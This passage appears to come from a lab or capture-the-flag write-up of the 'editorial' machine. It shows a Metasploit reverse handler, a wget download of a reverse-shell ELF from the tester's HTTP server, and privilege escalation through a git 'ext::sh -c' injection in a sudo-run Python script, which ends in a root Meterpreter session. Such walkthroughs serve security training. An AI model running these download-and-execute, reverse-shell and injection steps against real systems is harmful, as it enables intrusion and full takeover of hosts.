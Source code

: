 ```

View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.9:8080 

```
The tester used "Wget" to download the payload to the target host and made it executable. 
```
prod@editorial:/tmp$ wget http://10.10.14.9/reverse.elf
--2024-07-11 13:19:36--  http://10.10.14.9/reverse.elf
Connecting to 10.10.14.9:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 250 [application/octet-stream]
Saving to: ‘reverse.elf’

reverse.elf                                                         100%[=================================================================================================================================================================>]     250  --.-KB/s    in 0s      

2024-07-11 13:19:36 (21.2 MB/s) - ‘reverse.elf’ saved [250/250]

prod@editorial:/tmp$ chmod +x /tmp/reverse.elf 

```

```
┌──(kali㉿kali)-[~/Documents/editorial]]
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.20 - - [11/Jul/2024 14:18:28] "GET /reverse.elf HTTP/1.1" 200 -
```

The tester ran the payload using the exploiting the vulnerability using the following command.

```
prod@editorial:~$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c /tmp/reverse.elf'

```

```
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.9:8080 
[*] Sending stage (3045380 bytes) to 10.10.11.20
[*] Meterpreter session 1 opened (10.10.14.9:8080 -> 10.10.11.20:56586) at 2024-07-11 14:25:20 +0100

meterpreter > getuid
Server username: root

```
